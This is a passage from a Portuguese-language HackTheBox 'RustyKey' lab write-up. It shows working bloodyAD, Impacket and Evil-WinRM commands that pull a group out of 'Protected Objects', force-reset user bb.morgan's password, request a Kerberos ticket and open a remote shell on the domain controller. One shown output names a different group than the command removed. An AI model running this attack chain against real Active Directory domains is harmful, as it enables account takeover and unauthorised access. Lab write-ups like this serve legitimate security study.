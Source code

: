 ```bash
You can try to use another password change protocol such as smbpasswd, server error may be more explicit.
```

Você deve estar se perguntando: "Mas por que acontece isso mesmo tendo a permissão `ForceChangePassword`?" Eu te respondo: isso ocorre porque o **BB.MORGAN** faz parte do grupo `Protected Objects`, e tudo que estiver dentro desse grupo, segundo a **Microsoft**:

>Protected accounts and groups are special objects where permissions are set and enforced via an automatic process that ensures the permissions on the objects remain consistent. These permissions remain even if you move the objects to different locations in Active Directory. If a protected object's permissions are modified, existing processes ensure that permissions are returned to their defaults quickly.

Resumidamente, são objetos importantes que não podem ser alterados facilmente, então para alterarmos a senha do **BB.MORGAN** precisamos tirar ele desse grupo. E para isso, o `BloodyAD` nos ajudará novamente:
```bash
KRB5CCNAME='IT-Computer3$.ccache'  bloodyAD --host "dc.rustykey.htb" -d "rustykey.htb" -k remove groupMember "CN=Protected Objects,CN=Users,DC=rustykey,DC=htb" "CN=IT,CN=Users,DC=rustykey,DC=htb"

[-] CN=Support,CN=Users,DC=rustykey,DC=htb removed from CN=Protected Objects,CN=Users,DC=rustykey,DC=htb
```

{{< alert >}}
**Nesse caso é sempre bom utilizar o `distinguishedname` do objeto no AD para não ter problema de encontrar o objeto. Caso não funcione, tente se adicionar no grupo novamente pois o cronjob da máquina pode ter removido.**
{{< /alert >}}


Agora ao mudarmos a senha do **BB.MORGAN**, recebemos a seguinte confirmação:

```bash
KRB5CCNAME='IT-Computer3$.ccache' bloodyAD --host "dc.rustykey.htb" -d "rustykey.htb" -k set password 'bb.morgan' 'Piroquinha123!'                                 

[+] Password changed successfully!
```

E agora é só pedirmos o TGT do **BB.MORGAN** e logar no `Evil-Winrm`:
```bash
> getTGT.py -dc-ip "dc.rustykey.htb" rustykey.htb/"bb.morgan":'Piroquinha123!'
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies                                                                
                                                                                               
[*] Saving ticket in bb.morgan.ccache
----------------------------------------------
> export KRB5CCNAME=bb.morgan.ccache
----------------------------------------------
> evil-winrm -r RUSTYKEY.HTB -i dc.rustykey.htb
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> 
```
